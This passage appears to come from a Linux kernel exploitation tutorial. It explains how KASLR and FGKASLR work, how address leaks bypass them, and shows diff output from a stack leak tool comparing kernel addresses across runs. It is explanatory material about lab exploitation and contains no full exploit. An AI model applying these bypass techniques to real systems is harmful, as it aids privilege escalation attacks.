Usually, the way to bypass ASLR is to get an address leak. If only the
base address of the loaded executable is randomized, then the offsets
are still the same in multiple runs. Hence, from an address leak the
relative offsets of the ROP gadgets can be calculated and hence, ASLR
could be bypassed.

Kernel ASLR (KASLR) is basically ASLR, but in kernel mode. This was
merged to Linux around 2014 in version 3.14. Back in the days this
loaded the kernel at a random base address, but left the offsets
intact. This old version can be activated using the options `kaslr`
and `nofgkaslr` in `run.sh`.

In 2021, [Function Granular KASLR
(FGKASLR)](https://lwn.net/Articles/824307/) was introduced which is a
finer grained kernel address space randomization. In particular, the
kernel code is rearranged per function. Hence, even when a kernel
address leak exists, it is hard to exploit, as computing the relative
offsets does not work anymore.

## Reconnaissance
The introduction of KASLR breaks all our previously developed
exploits, as it changes the addresses of the ROP gadgets.

There are two places where we can start our investigation.
We can leak the stack and compare how it changes between different
runs.
Or we can modify `initramfs/etc/inittab` to give us a root shell so we
can read `/proc/kallsyms` and compare the
addresses of the kernel symbols between multiple runs.

### Investigating the Stack
We already developed `leak_stack.c` above which allows us to read the
stack.
We executed this file two times and stored the output in `stack1.txt`
and `stack2.txt`.
Comparing the two outputs using `diff stack1.txt stack2.txt` yields
the following.

```diff
3c3
< [+] offset 0 contains value: 0xffffffffa53648f0
---
> [+] offset 0 contains value: 0xffffffff8f8d0280
5,7c5,7
< [+] offset 2 contains value: 0xcd9ac705e3874700
< [+] offset 3 contains value: 0xffff981606caef10
< [+] offset 4 contains value: 0xffffaa5a001bfe68
---
> [+] offset 2 contains value: 0x310671060c9fe500
> [+] offset 3 contains value: 0xffff97ae86cae610
> [+] offset 4 contains value: 0xffffa424c01bfe68
9,15c9,15
< [+] offset 6 contains value: 0xffff981606caef00
< [+] offset 7 contains value: 0xffffaa5a001bfef0
< [+] offset 8 contains value: 0xffff981606caef00
< [+] offset 9 contains value: 0xffffaa5a001bfe80
< [+] offset 10 contains value: 0xffffffffa5749a47
< [+] offset 11 contains value: 0xffffffffa5749a47
< [+] offset 12 contains value: 0xffff981606caef00
---
> [+] offset 6 contains value: 0xffff97ae86cae600
> [+] offset 7 contains value: 0xffffa424c01bfef0
> [+] offset 8 contains value: 0xffff97ae86cae600
> [+] offset 9 contains value: 0xffffa424c01bfe80
> [+] offset 10 contains value: 0xffffffff8fd3d9c7
```
